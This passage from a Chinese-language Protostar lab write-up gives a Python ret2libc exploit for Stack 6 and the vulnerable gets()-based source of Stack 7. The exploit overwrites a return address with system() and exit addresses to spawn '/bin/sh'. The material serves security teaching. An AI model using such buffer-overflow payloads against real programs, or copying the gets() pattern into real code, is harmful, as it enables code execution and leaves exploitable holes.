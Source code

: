 利用脚本如下：

``` python
#!/usr/bin/python
#coding=utf-8

pl = '/bin/sh'

print pl + '\x00' * (80 - len(pl)) + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\xfc\xf7\xff\xbf'
```

其中`\xfc\xf7\xff\xbf`为栈顶地址，即为字符串`/bin/sh`的地址，作为`system()`的参数。

我们依然要利用`cat`来开启`stdin`：

![Stack 6](stack6_2.png)

### ROP

待学习。。。



## Stack 7

源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
